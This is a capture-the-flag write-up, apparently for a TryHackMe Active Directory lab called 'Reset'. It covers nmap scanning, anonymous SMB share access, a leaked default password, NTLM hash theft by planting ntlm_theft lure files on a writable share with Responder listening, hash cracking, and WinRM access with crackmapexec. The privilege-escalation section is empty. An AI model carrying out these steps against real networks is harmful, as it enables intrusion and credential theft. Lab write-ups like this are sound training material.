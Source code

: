 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b80efa3b-6d37-4d1c-8644-d3ec7599a228)

first enumeration with nmap 

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:28:13 2024 as: nmap -p- --min-rate 1000 -v -Pn -oN full.tcp 10.10.230.101
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00056s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
7680/tcp  open  pando-pub
9389/tcp  open  adws
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49703/tcp open  unknown
MAC Address: 02:24:96:14:7C:EB (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Feb 10 17:30:33 2024 -- 1 IP address (1 host up) scanned in 140.66 seconds
```
we can see the open ports, let's run nmap default scripts scan to know what services are running on these ports

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:34:41 2024 as: nmap -sCV -T4 -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,7680,9389 -Pn -oN service.tcp
 10.10.230.101                 
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00045s latency).                                                
                                                                              
PORT     STATE    SERVICE       VERSION    
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 17:34:49Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2024-01-25T21:01:31                                                                                                                     
|_Not valid after:  2024-07-26T21:01:31 
| rdp-ntlm-info:                                                                                                                                            
|   Target_Name: THM                                                                                                                                        
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-10T17:34:49+00:00
|_ssl-date: 2024-02-10T17:35:29+00:00; 0s from scanner time.
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp filtered pando-pub
9389/tcp open     mc-nmf        .NET Message Framing
MAC Address: 02:24:96:14:7C:EB (Unknown)
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-10T17:34:50
|_  start_date: N/A
|_nbstat: NetBIOS name: HAYSTACK, NetBIOS user: <unknown>, NetBIOS MAC: 022496147ceb (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 10 17:35:29 2024 -- 1 IP address (1 host up) scanned in 48.40 seconds
```
now we know what services are running on these ports

## Enumerating smb

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/reset]
└─$ smbclient -L HayStack.thm.corp -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to HayStack.thm.corp failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
checking for null share session, we can see a Data share. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/00c95ff9-7b5e-4e3c-99f9-6b0941815616)

checking the share, we can see some files, we downloaded the files. 

```shell
└─$ cat cjexnwvf.e0i.txt
Subject: Welcome to Reset -Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team 
```
checking the content of the txt file, we got a password `ResetMe123!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5e223f93-149f-4968-8463-5715d888acb6)

we have write permission to the smb server, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dc3c8f28-22d9-4686-8eab-bccdd5fc58e7)

after long research we got how to phish and steal ntlm hash using responder with this ntlm_theft payload. [payload_gen](https://github.com/Greenwolf/ntlm_theft).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2b0c83d9-912b-4342-9f76-e4f45ae42036)

```shell
┌──(root㉿kali)-[~/ntlm_theft]                                                                                                                              
└─# python ntlm_theft.py                                                                                                                                    
usage: ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
ntlm_theft.py: error: the following arguments are required: -g/--generate, -s/--server, -f/--filename
                                                                                                                                                            
┌──(root㉿kali)-[~/ntlm_theft]                                                
└─# python ntlm_theft.py --generate all --server 10.10.135.72 --filename testing 
Created: testing/testing.scf (BROWSE TO FOLDER)              
Created: testing/testing-(url).url (BROWSE TO FOLDER)
Created: testing/testing-(icon).url (BROWSE TO FOLDER)                        
Created: testing/testing.lnk (BROWSE TO FOLDER)                               
Created: testing/testing.rtf (OPEN)                                           
Created: testing/testing-(stylesheet).xml (OPEN)                              
Created: testing/testing-(fulldocx).xml (OPEN)                                
Created: testing/testing.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: testing/testing-(includepicture).docx (OPEN)
Created: testing/testing-(remotetemplate).docx (OPEN)
Created: testing/testing-(frameset).docx (OPEN)
Created: testing/testing-(externalcell).xlsx (OPEN)
Created: testing/testing.wax (OPEN)
Created: testing/testing.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: testing/testing.asx (OPEN)
Created: testing/testing.jnlp (OPEN)
Created: testing/testing.application (DOWNLOAD AND OPEN)
Created: testing/testing.pdf (OPEN AND ALLOW)
Created: testing/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: testing/Autorun.inf (BROWSE TO FOLDER)
Created: testing/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```
run the exploit to see how it works and generated some payloads we can use. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5ff14951-88e7-4859-9ca1-d69844953aef)

payloads generated. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/09508a3f-f1b2-49f2-9b9b-760be16429bd)

fire up responder

```shell
┌──(root㉿kali)-[~/ntlm_theft/testing]
└─# smbclient \\\\HayStack.thm.corp\\Data -N
Try "help" to get a list of possible commands.
smb: \> cd onboarding\
smb: \onboarding\> put testing.lnk 
putting file testing.lnk as \onboarding\testing.lnk (45.0 kb/s) (average 45.0 kb/s)
smb: \onboarding\> dir 
  .                                   D        0  Sat Feb 10 18:04:15 2024
  ..                                  D        0  Sat Feb 10 18:04:15 2024
  101.nmap                            A     1260  Sat Feb 10 17:51:00 2024
  44ocn1as.elc.txt                    A      521  Mon Aug 21 18:21:59 2023
  4r2skt4b.sa2.pdf                    A  4700896  Mon Jul 17 08:11:53 2023
  nfdpqxro.a0w.pdf                    A  3032659  Mon Jul 17 08:12:09 2023
  testing.lnk                         A     2164  Sat Feb 10 18:04:15 2024

                7863807 blocks of size 4096. 3023074 blocks available
smb: \onboarding\> 
```
uploaded a testing.lnk file and check back responder

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5fabef38-7548-4345-b000-ea9373c00d9a)

boom we got an NTLM hash for user `THM\AUTOMATE`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a76da70b-55e7-4154-ad8d-eb94106722ef)

using hashcat to crack the hash, we got the password. 

## Initial foothold - winrm 

```shell
┌──(root㉿kali)-[~]
└─# crackmapexec winrm 10.10.230.101 -u automate -p redacted
SMB         10.10.230.101   5985   HAYSTACK         [*] Windows 10.0 Build 17763 (name:HAYSTACK) (domain:thm.corp)
HTTP        10.10.230.101   5985   HAYSTACK         [*] http://10.10.230.101:5985/wsman
WINRM       10.10.230.101   5985   HAYSTACK         [+] thm.corp\automate:redacted (Pwn3d!)
```
using crackmapexec to check for access, we can see that we can login winrm using the cred.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4a1bd524-0ca0-41c5-85a5-e62d35a6688f)

now we login winrm using the creds


## Privilege Escalation 



